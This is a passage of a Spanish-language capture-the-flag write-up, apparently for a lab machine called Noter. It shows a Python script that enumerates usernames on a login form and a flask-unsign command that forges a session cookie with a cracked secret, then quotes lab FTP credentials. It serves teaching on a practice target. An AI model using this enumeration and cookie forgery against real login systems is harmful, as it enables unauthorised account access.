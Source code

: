 ### Fuzzing panel de login

Como pone "Invalid Crendentials" probe a fuzzear el nombre de usuario (ya que si pongo el mio, que existe, pone "Invalid Login")  

![noter4](https://user-images.githubusercontent.com/96772264/198711486-a10cd328-eae1-455a-98db-b8c8b5fc96ea.PNG)

Me cree un sccript para hacer el fuzzing de usaurios:  
```python3
#!/bin/python3
import requests

main_url = "http://10.10.11.160:5000/login"
intento = 0
file = open('/usr/share/seclists/Usernames/Names/names.txt','r')
for name in file.readlines():
    name = name.strip()
    data = {'username': name ,'password':'test'}
    req = requests.post(main_url, data)
    intento += 1
    print(f"{intento}:  {name}")
    if "Invalid credentials" not in req.text:
        break
```

Se paró en "blue". Asi que toca crear su cookie:  
```console
└─$ flask-unsign --sign  --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Y1lyDg.2Rw4NU_I1TDEs6KuZ-bvQ4DPBNU
```
Ahora estamos como blue, la nota 2 es esta (la 1 sigue dando server error)  
```
* Delete the password note
* Ask the admin team to change the password
```
En notes se ve la 1:
![noter5](https://user-images.githubusercontent.com/96772264/198711560-84cc1536-54b5-4bd4-bd86-401ca7a8e324.PNG)

```
Hello, Thank you for choosing our premium service. Now you are capable of doing many more things with our 
application. All the information you are going to need are on the Email we sent you. By the way, now you can 
access our FTP service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.
(Additional information are included in the attachments we sent along the Email)
We all hope you enjoy our service. Thanks!
ftp_admin
```
--------------------------------

# Parte 3: Entrando en el servidor ftp
